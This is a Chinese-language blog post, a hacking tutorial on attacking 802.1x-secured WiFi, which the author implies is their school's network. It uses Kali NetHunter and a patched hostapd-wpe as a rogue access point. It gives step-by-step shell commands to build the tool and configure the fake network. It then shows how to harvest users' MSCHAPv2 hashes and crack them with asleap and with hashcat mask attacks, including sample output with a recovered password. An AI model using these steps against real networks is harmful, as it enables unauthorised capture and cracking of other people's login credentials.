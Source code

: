 ```yaml
---
layout: single
title: 使用Kali Nethunter破解802.1x安全性WiFi
date: 2017-02-10 12:25:57
categories: "Hack"
tags:
- Hardware Security
- Wireless Security
- Kali
header:
  teaser: /assets/images/nethunter-8021x/1x_test.jpg
  
---
```


# 背景
笔者学校的无线网络采用1x认证方式，所以你懂的。

之前参考GitHub上的一个项目<https://github.com/OpenSecurityResearch/hostapd-wpe>在Kali2.0上部署成功，但是在手机端的情况比较不同，猜测是因为架构有一定区别所导致的，而且该网页上的Hostapd版本比较低，遂继续查找，找到了aircrack-ng的GitHub的某一个页面上展示了Hostapd-wpe的用法<https://github.com/aircrack-ng/aircrack-ng/tree/master/patches/wpe/hostapd-wpe>

页面上写的比较详细，但是实践中笔者还是踩了不少坑，下面开始：

**注意，本文在Kali 2.0及以上的版本中应该也适用！但是本人没有测试，还请测试通过的朋友留个言**

# 依赖
- pkg-config
- libssl 1.0
- libnl3 (and genl)
- sqlite3

安装依赖：
```shell
apt-get install libssl1.0-dev libnl-genl-3-dev libnl-3-dev pkg-config libsqlite3-dev
```

由于手机上敲指令过于蛋疼，笔者自己ssh到了手机上，在Kali的应用中可以直接打开SSH服务。

用ftp或者wget之类的将patch文件下载到手机上，这里笔者的路径是 ~/1x/ ,执行：

注:补丁文件<https://raw.githubusercontent.com/aircrack-ng/aircrack-ng/master/patches/wpe/hostapd-wpe/hostapd-wpe.patch>

## 下载、编译、安装
```shell
# 下载
wget http://hostap.epitest.fi/releases/hostapd-2.6.tar.gz
tar -zxf hostapd-2.6.tar.gz
cd hostapd-2.6
# 打补丁
patch -p1 < ../hostapd-wpe.patch
cd hostapd
# 编译安装
make
make install
make wpe
```

## 制作证书
```shell
cd /etc/hostapd-wpe/certs
./bootstrap
make install
```
这里会出现关于gendh命令未找到的错误，原因是openssl将gendh已经换成了dhparam,在该目录下的Makefile中将gendh替换为dhparam即可。

## 运行
请注意在Nethunter中已经预先安装了hostapd，但是那个版本的hostapd是不支持1x的。所以请切换到我们部署的hostapd目录下，运行：
```shell
./hostapd ./hostapd-wpe.conf
```

这里的配置文件需要修改，需要修改的地方有：
```shell
interface=wlan1
ssid=YOUR_SSID
driver=nl80211
hw_mode=g
#fragm_threshold=-1
#rts_threshold=-1
# 以上两行需要添加注释
```

之后再运行，即可成功。日志的数据为该目录下的hostapd-wpe.log文件，其记载了用户的用户名和MSCHAPv2认证hash值。

# 破解
由于采用MSCHAPv2认证，所以密码并不会明文显示。主要有两种方法，其一是直接用系统中的工具asleep进行破解，举个栗子：

## asleep
采集到的日志样例：
```shell
username: jdslfkjs
challenge: bc:87:6c:48:37:d3:92:6e
response: 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0
```

执行：
```shell
$ asleap -C bc:87:6c:48:37:d3:92:6e -R 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0 -W wordlist
asleap 2.2 - actively recover LEAP/PPTP passwords. <jwright@hasborg.com>
hash bytes:        b1ca
NT hash:           e614b958df9df49ec094b8730f0bb1ca
password:          bradtest
```

其中wordlist需要自己准备

## hashcat
另一种方法是利用hashcat进行破解，其好处是可以根据掩码实时生产字典爆破而且可以使用GPU+CPU资源进行破解，速度比较科学。

关于hashcat的获取，请去官方网站<https://hashcat.net/>下载。

### hashcat brief introduction
```shell
hashcat [选项] ... hash|hashfile|hccapfile [字典|掩码|路径]
-m, --hash-type        /哈希值类型，我们使用5500 NetNTLMv1
-a, --attack-mode      /攻击模式，这里使用3 暴力破解
-d, --opencl-devices   /使用设备，1：CPU 2：GPU 3：FPGA，DSP
-o, --outfile          /输出文件路径-i, --incerment        /掩码破击时使用，设置掩码上下限
```

笔者这里使用的参数如下：
```shell
./hashcat64.exe -d 1 -a 3 -m 5500 -o "output path" -i --increment-min=1 --increment-max=8 -1 ?l "input filepath" ?1?1?1?1?1?1?1?1
```

其中，-1 ?l 代表定义1号掩码的格式为所有小写字母，参考掩码：
### hashcat maskcode
```shell
? | Charset
===+=========
l | abcdefghijklmnopqrstuvwxyz
u | ABCDEFGHIJKLMNOPQRSTUVWXYZ
d | 0123456789
s |  !"#$%&'()*+,-./:;=?@[\]^_`{|}~
a | ?l?u?d?s
b | 0x00 - 0xff
```

将之前得到的输出结果按照
username::::response:challenge
的格式存储在文本文档中，注意去掉hash值中的冒号。运行hashcat

# 后记

为了方便起见，可以将其作为用户定义脚本存储在nethunter的custom command中：
![OP3 customcommand](/assets/images/nethunter-8021x/custom_command.jpg)

运行截图：
![OP3 test1x](/assets/images/nethunter-8021x/1x_test.jpg)
